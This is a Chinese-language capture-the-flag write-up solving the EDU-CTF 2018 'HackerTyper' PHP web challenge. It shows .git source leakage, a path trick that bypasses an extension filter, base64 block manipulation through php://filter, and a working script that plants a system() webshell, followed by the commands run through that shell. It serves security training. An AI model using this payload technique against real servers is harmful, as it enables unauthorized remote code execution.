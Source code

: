 ```yaml
---
uuid: 1d24c795-6288-438c-ac95-948d3841ed69
title: EDU-CTF 2018 - HackerTyper
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
series: EDU-CTF 2018
date: 2019-02-01 00:00:00
updated: 2019-02-01 00:00:00
---
```


題目點進去會看到一個風格很 hacker 的網站，觀察 js 後發現什麼也沒有zzz

<!--more-->

# [正文]

透過簡單的測試發現它有 `.git`，卻沒有擋掉 `.git/*`，馬上用 `dvcs-ripper` 拉下來，checkout 後得到 source code!

{% codeblock lang:shell line_number:false %}
$ perl rip-git.pl -vv -o ./ -u http://final.kaibro.tw:10003/.git
[i] Downloading git files from http://final.kaibro.tw:10003/.git 
...
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!

$ git log
...
commit c593e752192d5a2159bf8d9d00e639f8ada5deb5
Author: root <root@83a85fdd8851.(none)>
Date:   Thu Jan 10 21:56:36 2019 -0500

    update
...
$ git checkout c593e7521
...
HEAD is now at c593e75 update
$ ls
code.txt  index.php*  script.js  style.css
{% endcodeblock %}

{% codeblock index.php lang:php line_number:true %}
<?php

$sandbox = "/var/www/html/sandbox/" . md5($_SERVER['REMOTE_ADDR'] . "QQ");
@mkdir($sandbox);
@chdir($sandbox);

$path = 'code.txt';

if ( isset($_GET['_']) && isset($_GET['f']) ) {

    $_ = $_GET['_'];
    $f = $_GET['f'];

    if(preg_match("/h/is", pathinfo($f, PATHINFO_EXTENSION)))
        die("No h4cker will use h :p");

    $c = "Q____Q" . base64_encode($_);
    $path = 'sandbox/' . md5($_SERVER['REMOTE_ADDR'] . "QQ") . '/' . $f;

    @file_put_contents($f, $c);

}
?>

...
{% endcodeblock %}

## Analysis
1. 看到 `@file_put_contents($f, $c)`，推測用 `php://filter`
2. `$f` 會被 `preg_match("/h/is", pathinfo($f, PATHINFO_EXTENSION))` 過濾掉含 `h` 的副檔名，要 bypass WAF 的話，可以在後面加上 `/.` 讓 `pathinfo($f, PATHINFO_EXTENSION)` 回傳空字串，而 `@file_put_contents($f, $c)` 會忽略 `/.`
  {% note info %}
  ### PATHINFO_EXTENSION
  它會回傳最後一個 `.` 後面的內容當做副檔名，沒有東西的話會回傳空字串
  {% endnote %}
3. `$c` 是 `base64_encode($_) + "Q____Q"`，沒辦法簡單的 base64_decode，base64 是 4 char block 的，且 decode 會忽略非 base64 字元，利用此性質建構 payload:
  {% codeblock lang:plain line_number:false %}
  // generate payload
              |----|----|----|----|----|----|----|----|----|----|
  1. payload  |xxx |xxx |xxx |xxx |xxx |xxx |xxx |xxx |x   |    |
  2. encode   |aaaa|bbbb|cccc|dddd|eeee|ffff|gggg|hhhh|ii==|    |
  3. cut&add  |QQaa|aabb|bbcc|ccdd|ddee|eeff|ffgg|gghh|hhii|    |
  4. decode   |yyy |yyy |yyy |yyy |yyy |yyy |yyy |yyy |yyy |    |
  
  // by site index.php, Q____Q => QQ with base64 decode
              |----|----|----|----|----|----|----|----|----|----|
  5. encode   |QQaa|aabb|bbcc|ccdd|ddee|eeff|ffgg|gghh|hhii|    |
  6. addQQ    |QQQQ|aaaa|bbbb|cccc|dddd|eeee|ffff|gggg|hhhh|ii  |
  
  // by php://filter/convert.base64-decode
              |----|----|----|----|----|----|----|----|----|----|
  7. decode   |A?? |xxx |xxx |xxx |xxx |xxx |xxx |xxx |xxx |x   |
  {% endcodeblock %}
  
  {% note warning %}
  其中 2. 一定要找到 encode 完之後最後兩個為 `==` 的 payload，才能在步驟三把 `==` 消掉，並在前面加上任意兩個字元。
  {% endnote %}


## Gen Payload

{% codeblock lang:php line_number:true %}
<?php
$payload = '<?php system($_GET[0]);?>';

$payload = base64_encode($payload);
if ( strcmp( substr( $payload, -2 ), '==' ) ) {
    die( "Not good base64_encode: $payload" );
}

$payload = base64_decode( 'QQ' . substr( $payload, 0, -2 ) );
echo '_=' . urlencode($payload);
{% endcodeblock %}

## Get shell
將產生的 payload 放進 `$_GET["_"]`，且 `$_GET["f"]` = `php://filter`
{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10003/
GET _=${PAYLOAD}
    f=php://filter/convert.base64-decode/resource=webshell.php/.
{% endcodeblock %}

{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10003/sandbox/$(md5(IP))/webshell.php
GET 0=ls%20/
bin boot dev etc flag_is_in_it.php ...
GET 0=cat%20/flag_is_in_it.php
<?php
$s = "bY5dT8IwFIbv/RWjYWtryAIr4QbRZdx45Q16oQhnH2mriRk4GNEQ+O2eno0ICVdtn/e8z+ndQ1EXN13wJh6/jefBMX3nfMmX4j6NOikfY0RZEDVBejxRwmNEcfsmECOYnIAjgseLDsIweuQyRIxZTpN+sECu3hLp5gmy6csUawMDtlawUsbCb5ltP8qtgk1fQz1c/ygNX30Ahp3kit+p3F5T6F1mNwI3uq0QMt8wukHPM1br6lPgATq3AyW6pt5ZKSW125//p6vSVKMhVNk6/67QKMNWQLMoJW/TTpom6dsvsINv9s9PrzPWO5Ni5dIDtP8P";
eval(str_rot13(gzinflate(base64_decode($s))));
// find the flag!
{% endcodeblock %}

不知道為啥，evel 會壞掉，只好 `echo str_rot13(gzinflate(base64_decode($s)))` 得到：
{% codeblock lang:php line_number:true %}
<?php
$_ = '*@[&~`\''^'^(>`2!`';
$__ = '&2`\''^'`~!`';
$___ = ';'^'@';
$____ = '@'^'=';
$_____ = ('@]!'^'.2U').$__;
$o = '@%&]'^'3MO)';
$$o = "PHP___1s_th3_b3st_languag3_f0r_h4ck3r_y0__";
$O = ('@]!'^'.2U').$_;
$$_ = sprintf($__.$___."%s".$____, strrev(str_rot13($shit)));
$$_____ = str_rot13(base64_encode($_).strrev($____.$_.$___));
$$O = strrev(sprintf("}%s{GALF", str_rot13($__).strrev($_____)));
{% endcodeblock %}

仔細觀察後發現 `$$_` 就是 flag 了！

FLAG: `FLAG{__0l_e3xp4u_e0s_3tnhtany_gf3o_3ug_f1___CUC}`
